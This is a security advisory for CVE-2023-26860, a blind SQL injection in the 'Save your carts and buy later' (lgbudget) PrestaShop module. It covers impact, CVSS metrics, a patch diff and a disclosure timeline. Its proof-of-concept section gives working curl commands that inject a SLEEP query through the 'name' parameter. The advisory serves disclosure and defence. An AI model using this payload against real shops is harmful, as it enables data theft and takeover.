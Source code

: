 ```yaml
---
layout: post
title: "[CVE-2023-26860] Improper neutralization of an SQL parameter in lgbudget module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,lgbudget"
severity: "high (8.8)"
---
```


In the module "Save your carts and buy later" (lgbudget) for PrestaShop, an authenticated user can perform a blind SQL injection up to 1.0.3. Release 1.0.4 fixed this security issue.

## Summary

* **CVE ID**: [CVE-2023-26860](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26860)
* **Published at**: 2023-04-04
* **Advisory source**: Friends-Of-Presta.org
* **Vendor**: PrestaShop
* **Product**: lgbudget
* **Impacted release**: < 1.0.4
* **Product author**: Línea Gráfica
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.8)

## Description

Up to 1.0.3, a sensitive SQL call in class `LgBudgetBudgetModuleFrontController::displayAjaxGenerateBudget()` can be exploited with a trivial http call to forge a blind SQL injection throught the POST or GET submitted "name" variable.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin’s ajax scripts of modules protected by token on the ecosystem

## Proof of concept


```bash
curl -v --cookie-jar cookie.txt -X POST -d 'token=<predictible_token>&id_product=123&qty=1&add=1&action=update' 'https://domain.tld/cart'
&& curl -v --cookie cookie.txt 'https://domain.tld/module/lgbudget/budget?ajax=1&action=generateBudget&name=test%22,%20%222022-01-01%22%20%29%3BSELECT%20SLEEP%2825%29%3B--'
```

## Patch

To fix this issue, in file controllers/front/budget.php line 42, you need to escape $name in `LgBudgetBudgetModuleFrontController::displayAjaxGenerateBudget()`.

```diff
--- v1.0.3/lgbudget/controllers/front/budget.php
+++ v1.0.4/lgbudget/controllers/front/budget.php
@@ -39,7 +49,7 @@ class LgBudgetBudgetModuleFrontControlle
                     "' . Context::getContext()->cookie->checksum .'",
                     ' . (int)$id_shop . ', 
                     ' . (int)$id_customer . ', 
-                    "' . $name . '", 
+                    "' . pSQL($name) . '", 
                     "' . $date_add . '"
                 )';
```

## Other recommandations

* It’s recommended to upgrade the module beyond 1.0.3. Release 1.0.4 fixed this security issue.
* Upgrade PrestaShop beyond 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by “;”).
* Change the default database prefix ps_ by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942’s rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-02-10 | Vulnerability discovered by 202 ecommerce during an security audit |
| 2023-02-10 | Contact PrestaShop addons |
| 2023-02-12 | Request a CVE ID |
| 2023-03-02 | Fix published on addons PrestaShop marketplace |
| 2023-03-17 | Propose a delay of to PrestaShop addons before disclosure |
| 2023-03-27 | PrestaShop addons confirm the CVE can be published |
| 2023-04-04 | Publication of the security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/order-management/45282-save-your-carts-and-buy-later-or-send-it.html)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26860)

